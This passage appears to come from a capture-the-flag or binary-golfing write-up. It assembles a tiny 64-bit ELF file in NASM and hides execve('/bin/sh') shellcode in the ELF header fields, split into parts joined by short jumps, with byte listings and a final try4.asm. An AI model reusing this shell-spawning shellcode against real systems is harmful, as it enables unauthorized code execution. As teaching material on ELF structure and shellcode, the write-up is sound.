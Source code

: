 ```wasm
    dq 5, 0                     ; DT_STRTAB
    dq 6, 0                     ; DT_SYMTAB
    dq 0Ch, _start              ; DT_INIT
    dq 0,0

dyn_size    equ $ - _dyn

filesize      equ     $ - ehdr
```

When we assemble the shellcode, we can split it, and use `jmp short` between the parts (2 byte instruction).

```wasm
part 1 - 10 bytes
48 bb d1 9d 96 91 d0    movabs rbx,0xff978cd091969dd1
8c 97 ff

part 2 - 3 bytes
48 f7 db                neg    rbx

part 3 - 14 bytes
31 c0                   xor    eax,eax
53                      push   rbx
54                      push   rsp
5f                      pop    rdi
99                      cdq
52                      push   rdx
57                      push   rdi
54                      push   rsp
5e                      pop    rsi
b0 3b                   mov    al,0x3b
0f 05                   syscall
```

So lets insert the shellcode into the spaces, and the dynamic table into the last 32 bytes space.

Final code (`try4.asm`):

```wasm
bits 64
            org 0x08048000

ehdr:                                           ; Elf64_Ehdr
            db  0x7F, "ELF", 2, 1, 1, 0         ;   e_ident
    times 8 db  0
            dw  3                               ;   e_type
            dw  62                              ;   e_machine
            dd  1                               ;   e_version
            dq  _start                          ;   e_entry
            dq  pht_start                       ;   e_phoff
    ; part 1
    _start: 
            mov rbx, 0xFF978CD091969DD1
            jmp part_2
            dw  0x40                            ;   e_ehsize
            dw  0x38                            ;   e_phentsize
            dw  2                               ;   e_phnum
    part_2:
            neg rbx
            jmp part_3

pht_start equ $ - $$

phdr_load:                                           ; Elf64_Phdr
            dd  1                               ;   p_type
```